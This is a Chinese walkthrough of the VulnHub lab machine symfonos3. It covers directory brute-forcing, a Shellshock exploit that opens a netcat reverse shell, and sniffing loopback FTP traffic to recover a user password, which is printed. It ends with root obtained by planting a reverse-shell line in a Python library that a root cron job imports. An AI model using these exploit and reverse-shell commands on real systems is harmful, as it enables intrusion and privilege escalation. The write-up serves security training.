




# symfonos3-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-3,332/

**Description**

Intermediate real life based machine designed to test your skill at enumeration. If you get stuck remember to try different wordlist, avoid rabbit holes and enumerate everything thoroughly. SHOULD work for both VMware and Virtualbox.

For hints you're welcome to contact me via Twitter @zayotic

**知识点**
- 多级目录爆破
- pspy
- 横向提权
- tcpdump 抓包分析

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```


排除法,去掉自己、宿主机、网关, `192.168.141.150` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.150
```



ftp、ssh、web,ftp 比起前一个靶机还升级了版本,先从 web 开始




老样子,除了一张图啥都没有,源码提示貌似要去爆破,这里推荐一个目录枚举工具 [gobuster](https://github.com/OJ/gobuster)

```bash
./gobuster dir -u 192.168.141.150 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


有个 gate 路径,访问看下


啥都没有,爆破一下二级目录
```bash
./gobuster dir -u 192.168.141.150/gate -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


有个 cerberus 路径,访问看下


三级目录走起
```bash
./gobuster dir -u 192.168.141.150/gate/cerberus -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


啥都没有,换个字典试试
```bash
./gobuster dir -u 192.168.141.150/gate/cerberus -w /usr/share/wordlists/rockyou.txt
```

跑了半天,伴随着一堆报错,发现一个路径 tartarus


看来有些东西了
```bash
./gobuster dir -u 192.168.141.150/gate/cerberus/tartarus -w /usr/share/wordlists/rockyou.txt
```


hermes 和 charon 无法访问, research 是纯文本内容,意义不明


没有头绪,google 了一番,找到了 mzfr 分享的步骤
```bash
./gobuster dir -u 192.168.141.150 -w /usr/share/dirb/wordlists/big.txt
```


```bash
./gobuster dir -u 192.168.141.150/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



终于找到狗日的 underworld 了 `http://192.168.141.150/cgi-bin/underworld`


---

# 中期-漏洞利用

看上去就像 `uptime` 的输出,查了下,应该是 shellshock 漏洞
```bash
searchsploit -w shellshock
```

找个 https://www.exploit-db.com/exploits/34766 测试下

kali 监听
```bash
nc -lvp 4444
```

执行命令,回弹 shell
```bash
wget https://www.exploit-db.com/download/34766
mv 34766 34766.php
php 34766.php -u http://192.168.141.150/cgi-bin/underworld -c "nc -e /bin/bash 192.168.141.134 4444"
```


下面尝试提权

---

# 后期-水平提权

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
uname -a
sudo -l
find / -perm -u=s 2>/dev/null
cat /etc/passwd
```


cerberus 用户下没有找到可以提权的点,查看 passwd 用户可以发现还有个 hades 用户可以登录,使用 [pspy](https://github.com/DominicBreuker/pspy) 这个工具看看有哪些进程

```bash
python -m SimpleHTTPServer 8080
```

```bash
cd /tmp
wget 192.168.141.134:8080/pspy64
chmod +x pspy64
/tmp/pspy64
```


其他进程没有什么异常的点,但是发现有个 ftp 客户端 python 脚本,不过没有权限查看脚本
```bash
cd /opt/
ls -l
```



这个脚本一直在向 ftp 发送数据,我们可以抓包分析下
```bash
cd /tmp
tcpdump -D
tcpdump -w ftp.pcap -i ens33
```

运行命令后静静等待一段时间。


将抓好的包传给分析数据的机器,我这里用 windows 端的 wireshark 分析,先传给 kali 在传给 windows
```bash
python -m SimpleHTTPServer
```
```bash
wget 192.168.141.150:8000/ftp.pcap
```

关于 wireshark 的简单用法见 [wireshark 笔记](../../../工具/Wireshark.md)

分析了半天,啥都没有,突然想起来 127.0.0.1 应该是走环回口,妈的,还得再抓包

```bash
cd /tmp
tcpdump -D
tcpdump -w lo.pcap -i lo
```

运行命令后静静等待一段时间,再将抓好的包传给分析数据的机器

```bash
cd /tmp
python -m SimpleHTTPServer
```

```bash
wget 192.168.141.150:8000/lo.pcap
```

- 注1 : 这段过程要重复 ctrl+c 断 nc 连接,重连数次,要有耐心
- 注2 : 第一次 tcpdump 后再次执行报无权限,我直接重装了靶机,直接 tcpdump lo 口

这次分析看下
```
tcp.dstport == 21
```


发现 hades 的密码 PTpZTfU4vxgzvRBE

---

# 后期-垂直提权

登录,尝试提权
```bash
sudo -l
find / -perm -u=s 2>/dev/null
```

和 cerberus 一样啥都没有,突然想到之前 pspy 抓的进程中 ftp 脚本是以 uid0 定时运行的
```bash
cd /opt/ftpclient/
ls
cat ftpclient.py
```


改这个库试试
```bash
find / -name ftplib*
```


```bash
cd /usr/lib/python2.7/
ls -l | grep ftplib.py
```

root 和 god 组可以修改,hades 正好是 god 组的 :)


```bash
vi /usr/lib/python2.7/ftplib.py

os.system("nc -nv 192.168.141.134 5555 -e /bin/bash")
```


kali 监听
```bash
nc -lvp 5555
```


提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup
